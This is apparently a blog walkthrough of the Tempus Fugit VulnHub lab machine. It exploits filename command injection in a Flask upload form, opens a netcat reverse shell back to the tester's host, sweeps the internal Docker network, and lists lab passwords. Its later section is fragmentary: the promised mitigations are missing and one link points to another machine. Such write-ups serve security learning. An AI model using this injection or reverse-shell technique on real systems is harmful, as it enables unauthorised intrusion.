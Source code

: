 ```yaml
---
layout: post
title:  "Tempus Fugit: Vulnhub Walkthrough"
date:   2019-08-02 15:07:19
categories: [tutorial]
comments: true
---
```

This is a boot2root machine hosted on [VulnHub][1] that was created by [4ndr34z][5] and [DCAU][2]. Its graded as intermediate. As this is purely for educational purposes I'll throw in spoilers now. To exploit this machine we'll need to chain two different exploits. At the end we'll also include some mitigation strategies. Without much further ado here we go.

<!--more-->


Using [nmapAutomator][4]. Only port 80 is open:

![5-3.png](/assets/images/posts/tempus-fugit-walkthrough/20-1.png)

Navigating to the home page:
![5-3.png](/assets/images/posts/tempus-fugit-walkthrough/20-2.png)

We had nikto running in the background but this gave too many false positives we moved on from it.

Using curl to get all athe links on the page. There's only one useful link.
```
kali@marksmith:~/vulnhub/tempus_fugit$ curl -s  192.168.109.142 | grep -Po '(href|src)=".{2,}"'
...
href="/upload"
...
```

The first three links don't have anything promising. We go to `/upload`

![5-3.png](/assets/images/posts/tempus-fugit-walkthrough/20-3.png)

When we try upload the file like `Cherry Notes.ctb.txt`. It throws the error below.

![5-3.png](/assets/images/posts/tempus-fugit-walkthrough/20-4.png)

We tried uploading other types of files all fail. It shows only 2 types of files are allowed rtf and txt:

![5-3.png](/assets/images/posts/tempus-fugit-walkthrough/20-5.png)


__Conclusion__
1. You can only upload rtf or txt
2. If theres a space files name no execution; you get an error 500
3. If you got other dots than the .[ext] it doesn't work.

Set up burp and start intercepting. In this case the use of Burp is a bit different, when we intercept can only deal with its at the proxy level. Here we go;

After much investigation, the `/upload` function prints the contents of the file, with `.txt or .rtf` that is uploaded. This gives us a hunch that in the background, it could be running a function like `/bin/cat [filename].txt`. So what if we could chain some commands at the end of the `[filename].txt` using `; or | or &&` we get command execution. We can do ls, id, pwd, uname -a. Boom we got RCE.

![5-5a.png](/assets/images/posts/tempus-fugit-walkthrough/20-5a.png)

![5-3.png](/assets/images/posts/tempus-fugit-walkthrough/20-5b.png)

![5-3.png](/assets/images/posts/tempus-fugit-walkthrough/20-5c.png)

Since we got RCE and can list the contents ; we find a file called `main.py`. Reading the code, there’s a part that splits the filename at the fullstops; thus payloads with fullstops are problematic; also payloads with slashes(/) too are problematic. Tried using wget to upload but we’re restricted from executing things in `/upload` directory … i think

![5-3.png](/assets/images/posts/tempus-fugit-walkthrough/20-5d.png)
```
import os
import urllib.request from flask
import Flask, flash, request, redirect, render_template from ftplib
import FTP
import subprocess
UPLOAD_FOLDER = 'upload'
ALLOWED_EXTENSIONS = {
  'txt',
  'rtf'
}
app = Flask(__name__)
app.secret_key = "mofosecret"
app.config['MAX_CONTENT_LENGTH'] = 2 * 1024 * 1024 @app.route('/', defaults = {
  'path': ''
}) @app.route('/<path:path>') def catch_all(path): cmd = 'fortune -o'
result = subprocess.check_output(cmd, shell = True) return "<h1>400 - Sorry. I didn't find what you where looking for.</h1> <h2>Maybe this will cheer you up:</h2><h3>" + result.decode("utf-8") + "</h3>"
@app.errorhandler(500) def internal_error(error): return "<h1>500?! - What are you trying to do here?!</h1>"
@app.route('/') def home(): return render_template('index.html') @app.route('/upload') def upload_form(): try: return render_template('my-form.html') except Exception as e: return render_template("500.html", error = str(e)) def allowed_file(filename): check = filename.rsplit('.', 1)[1].lower() check = check[: 3] in ALLOWED_EXTENSIONS
return check @app.route('/upload', methods = ['POST']) def upload_file(): if request.method == 'POST': if 'file' not in request.files: flash('No file part') return redirect(request.url) file = request.files['file']
if file.filename == '': flash('No file selected for uploading') return redirect(request.url) if file.filename and allowed_file(file.filename): filename = file.filename file.save(os.path.join(UPLOAD_FOLDER, filename)) cmd = "cat " + UPLOAD_FOLDER + "/" + filename result = subprocess.check_output(cmd, shell = True) flash(result.decode("utf-8")) flash('File successfully uploaded') try: ftp = FTP('ftp.mofo.pwn') ftp.login('someuser', 'b232a4da4c104798be4613ab76d26efda1a04606') with open(UPLOAD_FOLDER + "/" + filename, 'rb') as f: ftp.storlines('STOR %s' % filename, f) ftp.quit() except: flash("Cannot connect to FTP-server") return redirect('/upload')
else :flash('Allowed file types are txt and rtf') return redirect(request.url) if __name__ == "__main__": app.run()
```

Only option for a payload is `/bin/nc`. Also the IP has to be in decimal format Using `nc -e <<ip decimal format>> <<port number>> sh` works. 
Our IP 192.168.109.148 in decimal format is 3232263572 (using any online converter):

We initially tried these.
```
nc -e /bin/sh 3232263572 4242
nc -e /bin/bash 3232263572 4242
nc 3232263572 4242 sh
```
None of them payloads worked;

However, this gives a reverse shell.

```
nc 3232263572 4242 -e sh
```

Once we're inside we realise why the first three options didnt work. The `-e option` must be last;

![5-3.png](/assets/images/posts/tempus-fugit-walkthrough/20-6.png)

When we run LinEnum, it tells us we're in a docker environment, 
```
[+] Looks like we're in a Docker container:
...
-rwxr-xr-x    1 root     root             0 Aug 16  2019 /.dockerenv
```

The machine IP is different from what we have externally as well
```
### NETWORKING  ##########################################
[-] Network and IP info:
eth0      Link encap:Ethernet  HWaddr 02:42:AC:13:00:0A
          inet addr:172.19.0.10  Bcast:172.19.255.255  Mask:255.255.0.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:139629 errors:0 dropped:0 overruns:0 frame:0
          TX packets:135825 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0
          RX bytes:7799491 (7.4 MiB)  TX bytes:10351266 (9.8 MiB)
...
```

As we did in [wintermute][6] we scan the internal network;

```
for ip in $(seq 1 254); do ping -c 1 172.19.0.$ip | grep "bytes from" | cut -d " " -f 4 | cut -d ":" -f 1 ; done

172.19.0.1
172.19.0.10
172.19.0.12
172.19.0.100

for p in $(seq 1 65535); do nc -nvzw1 172.19.0.12 $p 2>&1 ; done | grep open
172.19.0.12 (172.19.0.12:21) open

for p in $(seq 1 65535); do nc -nvzw1 172.19.0.100 $p 2>&1 ; done | grep open
172.19.0.100 (172.19.0.100:53) open

for p in $(seq 1 65535); do nc -nvzw1 172.19.0.1 $p 2>&1 ; done | grep open
172.19.0.1 (172.19.0.1:22) open
172.19.0.1 (172.19.0.1:80) open
172.19.0.1 (172.19.0.1:8080) open
```

bash-4.4# cat rl_history
 1565501674
open 172.19.0.12
 1565501679
quit
 1565501725
lftp 172.19.0.12
 1565501727
ls
 1565501758
?
 1565501767
qut
 1565501769
quit
 1565595928
exit
 1584064057
user someruser
 1584064068
id
 1584064071
list
 1584064080
help
 1584064113
ls
 1584064115
exit


b232a4da4c104798be4613ab76d26efda1a04606

![5-3.png](/assets/images/posts/tempus-fugit-walkthrough/20-7.png)

![5-3.png](/assets/images/posts/tempus-fugit-walkthrough/20-8.png)

myD3#2p$a%s&s

![5-3.png](/assets/images/posts/tempus-fugit-walkthrough/20-9.png)

![5-3.png](/assets/images/posts/tempus-fugit-walkthrough/20-10.png)

![5-3.png](/assets/images/posts/tempus-fugit-walkthrough/20-11.png)


![5-3.png](/assets/images/posts/tempus-fugit-walkthrough/20-12.png)

![5-3.png](/assets/images/posts/tempus-fugit-walkthrough/20-13.png)













hardEnough4u

[1]: https://www.vulnhub.com/entry/billu-b0x-2,238/
[2]: https://twitter.com/@DCAU7
[3]: https://www.vulnhub.com/
[4]: https://github.com/21y4d/nmapAutomator
[5]: https://twitter.com/@4nqr34z